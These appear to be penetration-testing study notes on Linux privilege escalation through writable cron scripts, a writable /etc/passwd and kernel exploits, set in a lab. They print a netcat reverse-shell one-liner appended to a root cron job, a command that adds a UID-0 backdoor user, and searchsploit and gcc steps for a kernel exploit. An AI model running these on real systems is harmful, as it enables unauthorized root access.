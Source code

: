 
Because everything in Linux is a file, most privesc revolves around _insecure file permissions_ or _kernel exploits_.  
  
_THAT_ being said... highly rec [https://gtfobins.github.io/](https://gtfobins.github.io/)  
  
Can search for binaries w/ SUID or GUID bits set, and then search ^ url for possible vulns w/ said binary. (Check #4 of [Linux Privesc exercises](18%20-%20Linux%20Privesc.md#18.3.5.4))



### Insecure File Permissions:

Must locate an executable that not only allows us write access but also runs at an elevated privilege level.  
  
Cron is a prime target, as system-level scheduled jobs are executed with root user privileges  
& sysadmins often create scripts for cron jobs with insecure perms.  
  
  
Search for installed cron jobs:  
```bash
ls -lah /etc/cron*  
  
OR
  
grep "CRON" /var/log/cron.log  
Jan27 15:55:26 victim cron[719]: (CRON) INFO (pidfile fd = 3)  
Jan27 15:55:26 victim cron[719]: (CRON) INFO (Running @reboot jobs)  
...  
Jan27 17:45:01 victim CRON[2615]:(root) CMD (cd /var/scripts/ && ./user_backups.sh)
```

**cat**'ing the script shows it copies the student's home dir to the backups subdir  
AND looking at the file shows that not only can anyone can Read/Write to it, BUT it's also executed in the context of the _**root**_ user:  
```bash
#!/bin/bash  
  
cp -rf /home/student/ /var/backups/student/  
  
  
ls -lah /var/scripts/user_backups.sh   
-rwxrwxrw- 1 root root 52 ian 27 17:02 /var/scripts/user_backups.sh
```

Meaning, we can edit the script and add a reverse shell one-liner which then executes as root.:  
```bash
echo "rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc <ip> <port> > /tmp/f" >> user_backups.sh
```

starting up a **nc** listener on the attack machine & waiting for the cron script to run (check timestamps for how often the cronjob runs) will eventually net a reverse shell w/ root perms:  
```bash
nc -lnvp 1234  
  listening on [any] 1234 ...  
  connect to [10.11.0.4] from (UNKNOWN) [10.11.0.128] 43172  
  /bin/sh: 0: can''t access tty; job control turned off  
  # whoami  
  root  
  # 
```



### /etc/passwd

Unless AD or LDAP is used, Linux passwords are stored in /etc/shadow (not readable by normal users)  
  
Because historically, passwords _were_ stored in /etc/passwd, for backwards compatibility,  
	if there's a password hash present in the 2nd column, it's considered valid **& takes precedence over its respective entry in /etc/shadow**  
  
  
Granted, we have to have write perms for /etc/passwd in the first place ----- Most likely not.  
  
But if we can write to /etc/passwd, we can craft a new user & add it w/ root privileges:  
```bash
student@debian:~$ openssl passwd evil  
AK24fcSx2Il3I  
  
student@debian:~$ echo "root2:AK24fcSx2Il3I:0:0:root:/root:/bin/bash" >> /etc/passwd  
  
student@debian:~$ su root2  
Password: evil  
  
root@debian:/home/student# id  
uid=0(root) gid=0(root) groups=0(root)
```
adding entries:  
	username : pw hash : UID : GID : UID info (comment field) : home directory : command/shell  
	- 0 values for UID & GID specify the account is a superuser account  



### Kernel Vulns:

Success depends on matching the target's kernel version AND the OS flavor (Debian, Redhat, Suse, etc)  
  
First gather info about the target:  
```bash
cat /etc/issue  
Ubuntu 16.04.3 LTS \n \l
```

Inspect kernel version & system architecture:  
```bash
uname -r  
4.8.0-58-generic  
arch  
x86_64
```
	- Kernel version  
	- Architecture  
  
Search for exploits:  
```bash
searchsploit linux kernel ubuntu 16.04  
-------------------------------------------------------- -----------------------------  
 Exploit Title                                          |  Path (/usr/share/exploitdb/  
-------------------------------------------------------- -----------------------------  
...  
Linux Kernel < 4.4.0-83 / < 4.8.0-58 (Ubuntu 14.04/16.0 | exploits/linux/local/43418.c
```
	-- Same kernel version target's running  
  
Similar to Windows - we'll use **gcc** to compile the exploit to run on Linux:  
**NOTE: extremely important we compile on a computer w/ the same architecture  
```bash
gcc 43418.c -o exploit
```
  
Copy to target & run